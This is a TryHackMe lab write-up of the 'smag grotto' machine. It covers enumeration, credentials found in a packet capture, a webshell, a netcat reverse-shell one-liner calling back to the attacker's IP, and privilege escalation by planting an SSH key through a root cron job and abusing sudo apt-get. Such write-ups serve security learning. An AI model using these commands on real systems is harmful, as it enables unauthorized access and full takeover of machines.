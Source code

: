 ```yaml
---
title: "TryHackMe - smag grotto writeup"
date: 2022-09-20 09:31:00 +0300
image: /assets/img/Posts/Smag.png
categories: [Tryhackme, Easy]
tags: [cronjobs, sudo, web, gobuster, revshell, ssh-keygen, GTFObins, ssh]
---
```


| Room       | [smag-grotto](https://tryhackme.com/room/smaggrotto)       |
| ---------- | ---------------------------------------------------------- |
| Author     | [tryhackme](https://tryhackme.com/p/tryhackme)             |
| Difficulty | Easy                                                       |
| description| Follow the yellow brick road

>**smag-grotto** is a tryhackme machine that is testing on enumeration, a little bit of wireshark , cron jobs and a simple privilege escalation technique. Therefore this write up entails my approach to solving the machine.
{: .prompt-tip }

# Let's get started
## Nmap scan
As always, start scanning the ports, services and also the low hanging vulns using the nmap scripts. For this case i scanned for ports and found that the machine had only two ports open, 22 (SSH) and 80 (HTTP)
`sudo nmap -A -sT -sV 10.10.90.94 -oN nmap.txt`

![image](/assets/img/Posts/smag-grotto/nmap.webp)

Visited the website and there was nothing there. I tried to look the source code as i always do but there was nothing still.

![image](/assets/img/Posts/smag-grotto/web.webp)
## Directory bruteforcing
I then went on and scanned for the hidden directories using gobuster, if present. woow!! i found mail
`gobuster dir -e -u http://[targetIP] -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php -t 50 | tee gobustlog`

![image](/assets/img/Posts/smag-grotto/gobuster.webp)

Visiting the `mail` directory, i found email messages and a packet capture file. Also checking on the usernames, i realized that they were using `smag.thm` so i went on and added the domain to my `/etc/hosts` file.

![image](/assets/img/Posts/smag-grotto/hosts.webp)

Then i downloaded the `.pcap` file to my machine and opened it using wireshark.

![image](/assets/img/Posts/smag-grotto/wireshark.webp)

Read the packet by right-clicking and follow the `tcp stream`. And there were login credentials. but for which platform? because i did not find any login directory. Checking on the header, there is login form for the host `development.smag.thm`.

![image](/assets/img/Posts/smag-grotto/creds.webp)
## Initial access
I went back to my hosts file and added the development subdomain, visited the `login.php` entered the credentials. They worked, and now much interesting was directed to a page that was executing system commands, more of a webshell. what now? a reverse shell? probably. i tried the `netcat one-liner` command.
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [yourIP]1234 >/tmp/f`

![image](/assets/img/Posts/smag-grotto/webshell.webp)

and waited for the machine to connect by starting a netcat listener in my terminal `nc -nlvp 1234` and I got the connection under the user `www-data`.

![image](/assets/img/Posts/smag-grotto/revshell.webp)

## Privesc - User
I could not do anything like retrieving the flags under this user, so i thought of downloading `linpeas` from my machine. I started `python3 server` and used wget to download the file in `/tmp`.

![image](/assets/img/Posts/smag-grotto/linpeas.webp)

I made it executable by running `chmod +x linpeas.sh` and ran it `./linpeas.sh`.
cron jobs!!!!..there was an interesting cron job that was being executed as root. It is basically copy the contents of the file to `jakes’s` authorised_keys most probably the public key.

![image](/assets/img/Posts/smag-grotto/cronjobs.webp)

To use that to my benefit, i used `ssh-keygen` to create my own ssh `public key` and copied it to the `/opt/.backups/jake_id_rsa.pub.backup` and then went on to login to the jake’s ssh account using my own private key(id_rsa).

![image](/assets/img/Posts/smag-grotto/sshlogin.webp)

### User flag
cat and submit the user flag.

![image](/assets/img/Posts/smag-grotto/userflag.webp)

## Privesc - Root
Getting to root? of course, i needed to escalate my privileges to root. How? i tried `sudo -l` and that’s all, user `jake` was allowed to run the `apt-get` binary as root.

![image](/assets/img/Posts/smag-grotto/sudo.webp)

So i headed to [GTFOBins](https://gtfobins.github.io/) and searched for the binary. i got a command, executed it and i got the root shell….how 34sy!!!!

### root flag
cat `/root/root.txt`

![image](/assets/img/Posts/smag-grotto/rootflag.webp)

i hoped you enjoyed the write up:)

thank you fam!!!!!!!!!!!!!!!!!!
